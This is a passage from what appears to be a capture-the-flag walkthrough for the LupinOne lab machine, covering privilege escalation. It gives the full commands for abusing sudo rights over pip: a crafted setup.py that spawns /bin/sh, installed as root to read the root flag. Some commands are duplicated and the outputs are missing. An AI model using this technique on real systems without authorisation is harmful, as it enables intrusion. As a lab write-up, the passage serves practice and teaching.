





5. Privilege Escalation (Catch the flag)
1. List user's privileges.
arsene@LupinOne:/$sudo -l
Output:

The ‘arsene’ user can execute “pip” as “root”.
2. Visit https://gtfobins.github.io/gtfobins/pip/#sudo.


So run those commands.
arsene@LupinOne:/$TF=$(mktemp -d)
arsene@LupinOne:/$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
arsene@LupinOne:/$sudo pip install $TF
arsene@LupinOne:/$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
arsene@LupinOne:/$sudo pip install $TF
Output:

3. Catch the flag.
# cd /root
# ls
# cat root.txt
# ls
# cat root.txt
Output:
